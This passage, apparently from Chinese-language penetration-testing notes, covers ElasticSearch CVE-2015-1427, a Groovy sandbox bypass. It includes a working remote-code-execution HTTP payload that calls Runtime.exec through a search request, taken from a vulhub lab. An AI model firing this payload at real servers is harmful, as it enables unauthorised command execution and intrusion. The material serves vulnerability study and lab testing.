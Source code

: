         }
    }
    ```

**CVE-2015-1427 Groovy 沙盒绕过 && 代码执行漏洞**
- 简介

    CVE-2014-3120 后，ElasticSearch 默认的动态脚本语言换成了 Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。

- 影响版本
    - ElasticSearch < 1 .3.7
    - ElasticSearch 1.4.0 ~ 1.4.2

- 相关文章
    - [Remote Code Execution in Elasticsearch - CVE-2015-1427](https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/)

- POC | Payload | exp

    来源: [ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞 (CVE-2015-1427) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/)

    由于查询时至少要求 es 中有一条数据,所以发送如下数据包,增加一个数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后发送包含 payload 的数据包,执行任意命令:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
    ```

**CVE-2015-3337 目录穿越漏洞**
- 简介
